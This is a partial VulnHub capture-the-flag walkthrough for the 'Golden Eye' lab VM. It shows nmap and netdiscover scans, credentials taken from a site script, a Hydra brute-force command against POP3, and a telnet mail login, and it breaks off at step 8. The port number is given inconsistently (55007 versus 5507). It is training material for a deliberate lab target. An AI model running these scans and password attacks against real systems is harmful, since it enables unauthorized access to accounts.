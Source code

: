# VulnHub Walkthrough: 👁️‍🗨️ 007 Golden Eye

1. Initial scan:
     * `netdiscover -r <Kali IP>`
     * `nmap -p0-65535 <007 IP>`
     * Open ports: *SSH* & *HTTP*

2. On your Kali machine, map Golden Eye's IP to a domain to make things easier:
     * `nano /etc/hosts` then add the following line `<007 IP> golden.eye`

3. Next look through `http://golden.eye`:
     * At *http://golden.eye/terminal.js*, we find users: *Boris* & *Natalya*
     * Decrypt using burpsuite/terminal/online - User: *Boris* | Password: *InvincibleHack3r*

4. Enter username & password @ *http://golden.eye/sev-home*

5. Check scan again (not really necessary):
     * `nmap -p0-65535 -A golden.eye`

6. Telnet:
     * Try `telnet golden.eye 55007` --> Try `USER boris`. But we don't know the password so just quit connection :/

7. Let's try using Hydra to crack the password:
     * `hydra -l boris -P /usr/share/wordlists/fasttrack.txt -f golden.eye -s 5507 pop3`
     * User: *boris* | Password: *secret1!*

8. We can now login using into telnet:
     * `telnet golden.eye 5507`
     * `USER boris` --> `PASS secret1!`
     * `LIST`
     * `RETR<1-3>`: you get a new user: *Xenia*
